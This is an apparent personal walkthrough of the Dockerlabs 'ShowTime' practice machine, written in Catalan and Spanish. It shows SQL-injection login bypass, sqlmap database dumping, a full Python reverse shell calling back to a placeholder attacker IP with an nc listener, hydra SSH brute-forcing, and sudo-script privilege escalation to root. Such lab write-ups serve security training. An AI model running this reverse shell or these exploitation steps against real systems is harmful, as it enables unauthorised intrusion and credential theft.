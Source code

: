 # ShowTime

Plataforma: Dockerlabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 5 de diciembre de 2024 21:44

# Reconocimiento

> NMAP
> 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 47.png>)

```bash
sudo nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![image.png](<imagenes/image 48.png>)

Ports:

**22** SSH: Open SSH 9.61
**80** http: Apache 2.4.58

> FUZZING
> 

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -u [http://172.17.0.2/](http://172.17.0.2/) -x html,php,php7,txt,py
```

![image.png](<imagenes/image 49.png>)

Trobem /login_page/

# Análisis de vulnerabilidades

> Web Analisis
> 

![image.png](<imagenes/image 50.png>)

Probem les SQL Injection:

Usuario: ' OR 1=1--
Password: 1234

![image.png](<imagenes/image 51.png>)

# Explotación de vulnerabilidades

> SQLMAP
> 

```bash
sqlmap -u "[http://172.17.0.2/login_page/index.php](http://172.17.0.2/login_page/index.php)" --forms --batch

- `u "<http://172.17.0.2/login_page/index.php>"`:
    - Esta opción especifica la URL del objetivo que sqlmap va a analizar, en este caso, la página `index.php` ubicada en `http://172.17.0.2/login_page/`.
- `-forms`:
    - Esta opción indica a `sqlmap` que debe analizar todos los formularios presentes en la página web. Los formularios pueden contener campos de entrada que podrían ser vulnerables a inyecciones SQL. `sqlmap` detectará estos formularios, los rellenará con datos potencialmente maliciosos, y probará si son susceptibles a una inyección SQL.
- `batch`:
    - Esta opción le dice a `sqlmap` que ejecute en modo no interactivo, es decir, sin solicitar confirmaciones del usuario durante la ejecución. Esto es útil para automatizar la tarea y evitar que `sqlmap` pregunte sobre cada paso que normalmente requeriría confirmación (como si quieres seguir adelante con una inyección peligrosa o explorar bases de datos después de descubrir una vulnerabilidad).
```

```bash
sqlmap -u "[http://172.17.0.2/login_page/index.php](http://172.17.0.2/login_page/index.php)" --forms --batch --dbs
	
	- `dbs`:Per a veure les bases de dades
```

![image.png](<imagenes/image 52.png>)

```bash
 sqlmap -u "[http://172.17.0.2/login_page/index.php](http://172.17.0.2/login_page/index.php)" --forms --batch -D users --tables
  -`D`:
  -`tables`:Per a veure les taules e la BS users
```

![image.png](<imagenes/image 53.png>)

```bash
sqlmap -u "[http://172.17.0.2/login_page/index.php](http://172.17.0.2/login_page/index.php)" --forms --batch -D users -T usuarios --dump
 - `T`:
-`dump`: Per a volcar el contingut de la taula usuarios
```

![image.png](<imagenes/image 54.png>)

Entrem a la web amb els 3 i el que es difrente es el usuari "joe"

![image.png](<imagenes/image 55.png>)

Busquem com executar una revershell en python:

```r
import socket
import subprocess
import os

# Dirección IP del atacante (listener)
ATTACKER_IP = "IP_NOSTRE"
# Puerto en el que el atacante está escuchando
ATTACKER_PORT = 4444

# Crear un socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Conectarse al servidor de la máquina atacante
s.connect((ATTACKER_IP, ATTACKER_PORT))

# Redirigir la entrada y salida estándar
os.dup2(s.fileno(), 0)  # stdin
os.dup2(s.fileno(), 1)  # stdout
os.dup2(s.fileno(), 2)  # stderr

# Ejecutar un shell
subprocess.call(["/bin/sh", "-i"])

```

Ens posem en escolta :

```bash
sudo nc -lvnp 4444
```

Tenim la Rever shell:

![image.png](<imagenes/image 56.png>)

Tractament TTY:

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de privilegios

> usuari :www-data
> 

![image.png](<imagenes/image 57.png>)

Provem a escalar privilegis:

```bash
sudo -l : no funciona, ens demana password
```

```bash
find / -perm -u=s -type f 2>/dev/null:
```

![image.png](<imagenes/image 58.png>)

Al no trobar res, mirem altres usuaris:

![image.png](<imagenes/image 59.png>)

Busquem fitxers a l'equip i trobem a la carpeta /tmp

![image.png](<imagenes/image 60.png>)

Obrirm .hidden_text.txt

![image.png](<imagenes/image 61.png>)

Com tenim diferents usuaris (joe, luciano) provem a buscar amb hydra el password d'aquest utilitzant aquesta llista com a diccionari:

```bash
john --wordlist=passwords.txt --rules --stdout > wordlist_variada.txt
```

Copiem el llistat al fitxer "pass.txt" i el passem amb el john a passVariado

```bash
 john --wordlist=pass.txt --rules --stdout >passVariado.txt
```

I amb Hydra:

```bash
hydra -l joe -P passVariado.txt 172.17.0.2 ssh -Vv
```

Resultat:

![image.png](<imagenes/image 62.png>)

Usuari: joe

Password: chi************g

Ara , dins de la maquina, canviem a usuari `joe`

```bash
su joe
```

![image.png](<imagenes/image 63.png>)

Mirem com podem escalar privilegis amb usuari "Joe"

```bash
Sudo -l
```

Podem executar posh sense password com a luciano:

```
sudo -u luciano /bin/posh
```

![image.png](<imagenes/image 64.png>)

Ara som usuari luciano

busquem permisos:

```bash
sudo -l
```

Veiem que el script te permisos de escriptura

```bash
ls -l
-rw-rw-r-- 1 luciano luciano  122 Aug 21 17:11 script.sh

```

Modifiquem el script:

```bash
echo "/bin/bash" >> script.sh
sudo /bin/bash /home/luciano/script.sh
```

Esperem perque el script porta un deleyy i despres:

![image.png](<imagenes/image 65.png>)